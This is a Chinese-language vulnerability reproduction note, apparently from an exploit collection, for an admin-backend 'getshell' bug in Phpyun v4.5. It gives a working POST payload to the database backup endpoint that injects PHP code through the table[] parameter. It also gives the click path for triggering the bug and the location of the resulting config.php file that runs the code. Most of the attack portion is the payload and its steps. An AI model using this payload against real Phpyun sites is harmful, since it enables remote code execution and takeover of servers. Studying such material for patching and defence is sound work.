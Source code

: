Phpyun v4.5 后台getshell
========================

一、漏洞简介
------------

二、漏洞影响
------------

Phpyun v4.5

三、复现过程
------------

### payload：

    Url： http://www.0-sec.org/admin/index.php?m=database&c=backup  

    Post： 
    pytoken=3c3140b58f5e&table[]=]=1;phpinfo();//&maxfilesize=1111

漏洞复现过程：
首先进入后台-》点击工具-》数据-》数据库管理-》自定义备份-》随便选择一个表-》提交备份

![](./.resource/Phpyunv4.5后台getshell/media/rId25.png)

抓包，修改table\[\] 参数-》发送

![](./.resource/Phpyunv4.5后台getshell/media/rId26.png)

![](./.resource/Phpyunv4.5后台getshell/media/rId27.png)

产生的文件就在uploads/data/plus/bdata/phpyun\_20200312153927/config.phpUrl：访问（这里搭建的时候环境，我默认指向了uploads）

![](./.resource/Phpyunv4.5后台getshell/media/rId28.png)
